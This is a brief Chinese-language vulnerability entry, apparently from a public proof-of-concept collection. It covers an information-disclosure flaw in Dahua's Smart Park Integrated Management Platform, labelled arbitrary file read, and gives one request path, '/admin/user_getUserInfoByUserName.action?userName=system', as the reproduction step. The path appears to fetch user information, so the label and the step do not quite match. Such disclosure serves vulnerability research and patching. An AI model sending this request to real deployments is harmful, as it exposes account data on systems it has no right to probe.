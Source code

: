 #### 影响范围

大华智慧园区综合管理平台

#### 漏洞概述

大华智慧园区综合管理平台任意文件读取

#### 漏洞复现

漏洞URL：

```
/admin/user_getUserInfoByUserName.action?userName=system
```

